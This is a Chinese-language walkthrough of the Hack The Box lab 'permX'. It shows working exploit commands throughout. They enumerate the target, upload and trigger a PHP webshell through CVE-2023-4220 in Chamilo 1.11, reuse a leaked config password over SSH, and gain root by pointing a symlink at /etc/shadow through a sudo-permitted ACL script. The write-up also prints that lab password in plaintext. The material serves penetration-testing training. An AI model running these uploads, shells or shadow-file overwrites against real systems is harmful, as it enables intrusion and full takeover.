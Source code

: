 ```yaml
---
description: Linux / Easy / chamilo 1.11
---
```


# ✔️ permX

## 建立立足点

### 信息收集

* 使用Nmap对目标开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA permx 10.129.76.98 --open
```

<figure><img src="../../.gitbook/assets/1 (6).png" alt=""><figcaption></figcaption></figure>

* 有个开放端口80，登录其页面查看详情，发现是一个线上学习网站：

<figure><img src="../../.gitbook/assets/2 (6).png" alt=""><figcaption></figcaption></figure>

* 使用dirsearch工具对80端口扫描以枚举隐藏文件/目录，结果无收获：

```bash
dirsearch -u http://permx.htb/ -x 403,404,400
```

<figure><img src="../../.gitbook/assets/4 (7).png" alt=""><figcaption></figcaption></figure>

* 再试试wfuzz对其子域名进行枚举，看看还有没有其他页面：

```bash
wfuzz -c -u http://permx.htb -H "Host:FUZZ.permx.htb" -w subdomains-top1million-110000.txt --hc 404 -t 200 --hl 9
```

<figure><img src="../../.gitbook/assets/5 (7).png" alt=""><figcaption></figcaption></figure>

* 先将域名及其子域名和IP都写进hosts文件中：

<figure><img src="../../.gitbook/assets/3 (6).png" alt=""><figcaption></figcaption></figure>

* 找到2个子域，分别登录查看后发现，lms.permx.htb显示的是名为chamilo应用程序的登录界面，并在页面底部返现了管理员的用户名和邮箱（**Administrator : Davis Miller**）：

<figure><img src="../../.gitbook/assets/6 (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7 (8).png" alt=""><figcaption></figcaption></figure>

* 初步查看了以一下lms子域的源码，决定使用gobuster对其隐藏文件/目录进行枚举：

```bash
gobuster dir -u http://lms.permx.htb/ -w /usr/share/wordlists/dirb/common.txt
```

<figure><img src="../../.gitbook/assets/8 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 有好几个文件都值得关注一下：
  * \`/documentation\`
  * \`/robots.txt\`
  * \`/web.config\`
* 查看\`/robots.txt\`可得知：

<figure><img src="../../.gitbook/assets/9 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 进入\`/documentation\`页面后，发现其运行的chamilo应用程序的版本号：1.11

<figure><img src="../../.gitbook/assets/10 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 接下来依次查看了各个隐藏文件/目录的相关页面，信息如下：

<figure><img src="../../.gitbook/assets/11 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/14 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

该页面中的好多php文件在浏览器中不可读，但是看起来都是配置文件，因此后续可能可以利用到，需要关注起来

### 漏洞查阅

* 从之前的枚举信息中已知正在运行的程序是chamilo 1.11版本，因此搜索后发现多个相关的可利用漏洞，从最近的开始尝试：（CVE-2023-4220）

<figure><img src="../../.gitbook/assets/15 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 阅读漏洞说明后，发现可以在该应用的特定路径下上传没有任何限制的文件，这意味着我可以直接上传一个php的反弹shell：

<figure><img src="../../.gitbook/assets/16 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 这里先简单写一个php一句话木马，检测一下当前目标系统是否存在该漏洞：

```bash
echo '<?php system("id");?>' > shell.php
# 上传这个一句话木马脚本：
curl -F 'bigUploadFile=@shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
# 触发这个脚本后，发现利用成功，这意味着我可以直接上传真正的php反弹shell:
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php'
```

* 这里使用的是一个我在靶机训练中常用的一个反弹shell的php脚本（pentestmonkey），修改脚本中kali端的IP及监听端口后，即可上传：

<figure><img src="../../.gitbook/assets/18 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 监听好自己设置的端口，上传该脚本等待回连：

<figure><img src="../../.gitbook/assets/19 (6).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 成功获得反弹shell，此时开始枚举目标主机中的各个文件内容，查找第一个flag：

<figure><img src="../../.gitbook/assets/20 (5).png" alt=""><figcaption></figcaption></figure>

* 此处找到了刚才在浏览器端无法查看的各个配置文件：

<figure><img src="../../.gitbook/assets/21 (3).png" alt=""><figcaption></figcaption></figure>

* 这其中有几个文件都值得关注：

<figure><img src="../../.gitbook/assets/22 (3).png" alt=""><figcaption></figcaption></figure>

* 最终在\`configuration.php\`文件中发现了目标数据库的登录凭证：

<figure><img src="../../.gitbook/assets/23 (3).png" alt=""><figcaption></figcaption></figure>

* 但是该目标并没有开放3306端口，剩下能利用的是端口22上的ssh服务，或许有重用密码的可能，但是用以上的凭证(chamilo:03F6lY3uXAP2bkW8)无法成功登录ssh服务，于是进行进一步信息枚举：

<figure><img src="../../.gitbook/assets/24 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/25 (2).png" alt=""><figcaption></figcaption></figure>

* 通过以上可知目标机器上的用户里并没有chamilo这个用户名，并且在/home目录中有个/mtz的目录无权访问，而/etc/passwd里正好有这个用户名，于是利用刚才的密码和mtz这个用户名进行ssh登录尝试，成功：

```bash
ssh mtz@10.129.76.98
03F6lY3uXAP2bkW8
```

<figure><img src="../../.gitbook/assets/26 (2).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息枚举

* 经过初步的手动枚举，\`sudo -l\`发现了当前可以用sudo身份执行且无需密码的文件是/opt目录下的acl.sh文件，阅读该文件中的代码可得知该脚本是用于指定用户对特定文件的访问权限的，并且要求必须是在/home/mtz/目录下进行的：

<figure><img src="../../.gitbook/assets/27 (2).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 由于该脚本可以修改/home/mtz/目录下的所有的文件权限，那么这就意味着我可以使用符号链接攻击将/etc/shadow文件映射到这里，修改其root密码即可完成提权：

```bash
# 当前所处的位置应就是/home/mtz/目录下：
ln -s / root
ls -l
sudo /opt/acl.sh mtz rwx /home/mtz/root/etc/shadow
echo 'root:$6$tPR3EAkzdPCSN2hT$fwoI8zEzWpKFxmw8JlLFjczHcd1sdLTXzIZuXUx6qwKdG3u2ynkEsDRxx/kf24WAI7gvgiqo.6r6qJ9uEecPs/:19742:0:99999:7:::' >/etc/shadow
su root
```

* 因为这里是需要修改/etc/passwd文件中的root的密码hash部分，所以，需要事先制作一个自定义的root账户的密码hash：

```bash
openssl passwd -6 fiii
```

<figure><img src="../../.gitbook/assets/28 (2).png" alt=""><figcaption></figcaption></figure>

### ROOT

<figure><img src="../../.gitbook/assets/29 (2).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例简单偏中等难度，在get shell阶段，锁定对了漏洞后就非常简单；提权阶段需要搞清楚当前低权限账户有完全控制权的那个文件的具体用法后，才能提权成功。

有时候，在初步信息枚举阶段获得到足够多的看似有用的信息，也算得上是一种“兔子洞”。这个时候需要将信息分门别类出来，只关注那些最直接的信息，而不是其他的“噪音”。
{% endhint %}
